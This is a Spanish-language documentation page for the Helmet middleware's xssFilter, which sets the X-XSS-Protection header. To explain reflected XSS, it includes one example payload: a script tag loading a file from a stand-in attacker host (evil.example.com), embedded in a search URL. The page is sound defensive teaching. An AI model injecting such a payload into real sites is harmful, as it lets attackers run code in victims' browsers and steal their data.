 ```yaml
---
layout: page
title: XSS Filter
permalink: /docs/xss-filter/
---
```

Brevemente: la función middleware `xssFilter` setea la cabecera `X-XSS-Protection` para prevenir los ataques XSS reflejados.

El ataque
----------

Los ataques de scripting de sitio-cruzado, abreviado "XSS" como un acrónimo en inglés, es una manera en la que los atacantes pueden hacerse con una página web. El objetivo de un ataque XSS es ganar control sobre la ejecución del Javascript en el navegador de la víctima. Una vez que un hacker ha logrado eso, hay un montón de cosas sucias que puede llevar a cabo: registrar todas las acciones de un usuario, impostar identidades, robar las *cookies* de autenticación, y mucho más.

El Xss es una bestia multifacética y el aprendizaje exhaustivo acerca del mismo es algo que excede ésta sección. Lo que sí podemos garantizar es lo siguiente: si alguien logra correr Javascript en tu sitio, entonces también pueden atacar a tus usuarios y llevar a cabo montones de acciones maliciosas. ¡Debemos prevenirlo!

Una de las variedades de ataques XSS es llamado "XSS Reflejado". Típicamente funciona seteando una *query string* que es puesta directamente dentro del código HTML. De ésta manera, el atacante podría inyectar por medio de aquella *query string* y así lograr ejecutar código en el navegador de los usuarios que estén utilizando dicho HTML.

Por ejemplo, supongamos que provees un servicio de motor de búsqueda llamado *Goober*. Cada vez que alguien hace una búsqueda éste muestra la búsqueda justo encima de los resultados. por ejemplo, digamos que hemos buscado *javascript jokes*.

Cuando realizamos esa búsqueda, los términos de la misma también apareceran en la *query string*. La URL podría verse algo así:

```
https://goober.example.com/search?query=javascript+jokes
```

Los resultados de la búsqueda podrían verse similares a la captura de pantalla de aquí abajo. Nota como el texto aparece en la página.

![Screenshot of normal Goober search](xss-filter-ok.png)

¿Qué pasaria si alguien buscara algo como `<script src="http://evil.example.com/steal-data.js"></script>`? Eso nos generaría una URL que se vería algo como:

```
https://goober.example.com/search?query=<script%20src="http://evil.example.com/steal-data.js"></script>
```

Y aquí puedes ver también cómo se vería en tu página:

![Screenshot of malicious Goober search](xss-filter-malicious.png)

¡Derepente, un archivo malicioso de Javascript ha sido ejecutado símplemente porque hemos visitado aquella URL! Eso sí que no es bueno.

Leer más:

- [Guide to understanding XSS](http://www.securesolutions.no/xss-explained/)
- [Cross-site Scripting (XSS)](https://www.owasp.org/index.php/XSS)
- [What is Reflected XSS?](http://security.stackexchange.com/q/65142)
- [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)

La cabecera
----------

Para ser muy claro: *ésta cabecera no te proteje demasiado contra los ataques XSS*. Sólo te proteje contra un tipo muy particular de ataques XSS, y sería muy recomendable incluir otras medidas de prevención. Ésta cabecera provee simplemente una protección básica y de ninguna manera ofrece una protección completa contra ataques XSS.

La detección de ataues simples de XSS Reflejado es algo relativamente sencillo para los navegadores actuales. En el ejemplo anterior, éstos podrían elegir no ejecutar ningún codigo de Javascript dentro de una *tag* `<script>` tag que pudiera encontrarse dentro de una *query string. Algunos navegadores hacen ésta detección por defecto, pero otros no. Sin embargo, para lograr protección contra éste caso específico puedes setear la cabecera `X-XSS-Protection` en `1; mode=block`.

Esto informa a los navegadores que deben detectar y bloquear los ataques XSS Reflejados.

Paradójicamente, ésta cabecera causa **incluso peores** problemas de seguridad en versiones antiguas de Internet Explorer, por lo que es bueno deshabilitarla en aquellos casos.

- ["Controlling the XSS Filter" on MSDN](http://blogs.msdn.com/b/ieinternals/archive/2011/01/31/controlling-the-internet-explorer-xss-filter-with-the-x-xss-protection-http-header.aspx)
- ["IE's XSS Filter Creates XSS Vulnerabilities"](http://hackademix.net/2009/11/21/ies-xss-filter-creates-xss-vulnerabilities/)
- ["XSS Filter Script Handling Vulnerability - CVE-2009-4074"](https://technet.microsoft.com/library/security/ms10-002#XSS%20Filter%20Script%20Handling%20Vulnerability%20-%20CVE-2009-4074)

El código
--------
El filtro `xssFilter` de Helmet es una función middleware relativamente sencilla que setea la cabecera `X-XSS-Protection`. En la mayoría de los navegadores le asignará el valor `1; mode=block`. Sin embargo, en las versiones antiguas e Internet Explorer le asignará `0` para inhabilitarla.

Puedes usar éste módulo como parte de Helmet:

```javascript
// Aseúrate de haber ejecutado "npm install helmet" para obtener el paquete de Helmet.
const helmet = require('helmet')

// Setea "X-XSS-Protection: 1; mode=block".
app.use(helmet.xssFilter())
```

También puedes usar el módulo en solitario:

```javascript
// Asegúrate de haber ejecutado "npm install x-xss-protection" para obtener éste paquete.
const xssFilter = require('x-xss-protection')

// Setea "X-XSS-Protection: 1; mode=block".
app.use(xssFilter())
```

Para forzar el valor `1; mode=block` en ésta cabecera en todas las versiones de Internet Explorer, puedes añadir la siguiente opción:

```javascript
app.use(xssFilter({ setOnOldIE: true }))
// Esto puede traerte problemas de seguridad en versiones antiguas de Internet explorer!!
```

You can also optionally configure a report URI, though the flag is [specific to Chrome-based browsers](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection). This option will report the violation to the specified URI:

```javascript
app.use(xssFilter({ reportUri: '/report-xss-violation' }))
```

Para quitar `mode=block` de la cabecera, lo cual no es recomendado, setea la opción `mode` a `null`:

```javascript
app.use(xssFilter({ mode: null }))
```

Ésta cabecera está incluida por defecto en el paquete de Helmet.